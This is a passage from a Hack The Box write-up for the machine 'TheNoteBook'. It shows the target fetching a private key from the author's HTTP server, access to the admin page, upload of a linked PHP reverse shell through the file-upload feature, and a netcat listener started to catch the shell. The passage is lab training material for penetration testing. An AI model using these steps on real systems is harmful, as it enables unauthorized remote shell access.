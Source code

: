 We got server request:
```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.230 - - [23/Mar/2021 03:05:32] "GET /privKey.key HTTP/1.1" 200 -
```
And we got the admin page successfully:

![admin.JPG](images/admin.JPG)

Let's try to click on ```Upload File``` button (intercept the request and change the ```auth``` cookie again:

![upload.JPG](images/upload.JPG)

So now, we can upload php shell [http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz):

![shellupload.JPG](images/shellupload.JPG)

Start ```nc``` listener:
```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...

```

